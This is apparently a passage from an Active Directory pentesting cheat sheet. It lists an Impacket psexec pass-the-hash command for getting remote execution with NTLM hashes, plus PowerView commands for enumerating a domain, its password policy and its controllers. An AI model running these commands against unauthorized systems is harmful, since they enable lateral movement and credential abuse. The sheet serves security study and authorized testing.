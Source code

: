 #### Use this parameter to not print errors powershell
```
-ErrorAction SilentlyContinue
```

#### Rename powershell windows
```
$host.ui.RawUI.WindowTitle = "<naam>"
```

#### Impacket PSexec impacket
If no LM Hash use an empty one: ```aad3b435b51404eeaad3b435b51404ee```
```
python3 psexec.py -hashes <LMHASH>:<NTHASH> <DOMAIN>/<USERNAME>@<TARGET>
python3 psexec.py <DOMAIN>/<USERNAME>:<PASSWORD>@<TARGET>
```

# Domain Enumeration
## Powerview Domain
https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon
```
. ./PowerView.ps1
```

#### Get current domain
```
Get-NetDomain
```

#### Get object of another domain
```
Get-NetDomain -Domain <domainname>
```

#### Get Domain SID for the current domain
```
Get-DomainSID
```

#### Get the domain password policy
```
Get-DomainPolicy
(Get-DomainPolicy)."System Access"
net accounts
```

## Powerview users groups and computers
#### Get Information of domain controller
```
Get-NetDomainController
Get-NetDomainController | select-object Name
```
